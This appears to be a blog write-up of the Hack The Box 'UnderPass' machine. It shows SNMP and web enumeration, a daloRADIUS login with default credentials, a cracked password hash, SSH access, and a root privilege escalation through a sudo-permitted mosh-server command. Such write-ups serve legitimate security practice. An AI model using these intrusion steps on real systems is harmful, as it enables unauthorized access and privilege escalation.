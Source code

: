 ```yaml
---
layout: post
title: "HTB Linux Easy: UnderPass"
description: "UnderPass is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

UDP:
```bash
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.019s latency).

PORT    STATE SERVICE
161/udp open  snmp
```

### Enumerate SNMP (Port 161)
We can use snmpbulkwalk to enumerate the following interesting info:
```bash
snmpbulkwalk -c public -v2c 10.10.11.48 .

steve@underpass.htb
UnDerPass.htb is the only daloradius server in the basin!
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.10.11.48 underpass.htb
```

### Enumerate HTTP (Port 80)
Landing page is running the default ubuntu page. Found no subdomains or files using feroxbuster & ffuf. After running out of ideas I started researching `daloradius` since this was the only interesting result from SNMP:
![Pasted image 20250119121845.png](/images/Pasted image 20250119121845.png){: .normal }

We get a forbidden error, let's try to run feroxbuster on this directory:
```bash
feroxbuster -u http://10.10.11.48/daloradius/ -x php,html,pdf,txt                                                 
200      GET      112l      352w     4421c http://10.10.11.48/daloradius/app/users/login.php
```

Login page:
![Pasted image 20250119122018.png](/images/Pasted image 20250119122018.png){: .normal }

There is a login page for the operators. We can authenticate using default creds (administrator:radius): [Link](https://github.com/lirantal/daloradius/blob/master/doc/install/INSTALL.debian.md).
![Pasted image 20250119130230.png](/images/Pasted image 20250119130230.png){: .normal }

Found database password on the website:
![Pasted image 20250119130440.png](/images/Pasted image 20250119130440.png){: .normal }

Found a user:
![Pasted image 20250119132036.png](/images/Pasted image 20250119132036.png){: .normal }
> Password hash cracks to: `underwaterfriends` using crackstation.
{: .prompt-info }

We can SSH as this user:
```bash
ssh svcMosh@underpass.htb
--SNIP--
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
```

User.txt: `44aaaed3a1f3318ac9223250f07c6d0c`
```bash
svcMosh@underpass:~$ cat user.txt 
44aaaed3a1f3318ac9223250f07c6d0c
```

### Privilege Escalation
Sudo -l output:
```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Whenever we start a mosh server using the /usr/bin/mosh-server command we don't automatically authenticate. Instead what we can do is use the mosh command and specify the --server flag. Since we can run mosh-server as sudo we are able to automatically connect to a privileged instance: [Link](https://mosh.org/#usage)
```bash
svcMosh@underpass:~$ mosh --help
--SNIP--
        --server=COMMAND     mosh server on remote machine
							 (default: "mosh-server")
--SNIP--
```

We can run the following command to connect to a privileged mosh server:
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

Shell as root:
```bash
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Proof of exploitation:
![Pasted image 20250119133309.png](/images/Pasted image 20250119133309.png){: .normal }


### PWNED!!!
![Pasted image 20250119133331.png](/images/Pasted image 20250119133331.png){: .normal }